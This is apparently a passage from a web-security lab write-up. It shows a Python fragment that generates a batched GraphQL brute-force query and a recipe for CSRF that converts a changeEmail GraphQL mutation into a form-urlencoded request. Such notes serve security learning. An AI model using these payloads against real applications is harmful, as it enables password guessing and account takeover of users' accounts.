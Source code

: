 ```python
	for x in poc:
		if x=='bruteforce':
			x+=str(n)
		elif x=='"peter"':
			x='"'+str(i)+'"'
		elif x=='\n  }':
			x+='\n'
		change+=x
	n+=1
print(change)
```



##### CSRF using change email in graphQL
given:
```
{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"caca@caca.com"}}}
```
Change the request query to:
```
Content-Type: www-x-form-urlencoded

query=
mutation changeEmail($input: ChangeEmailInput!) {
        changeEmail(input: $input) {
					email 
				}
}
&operationname="changeEmail"&variables={"input": {"email":"cacoso@gmail.com"}}
```
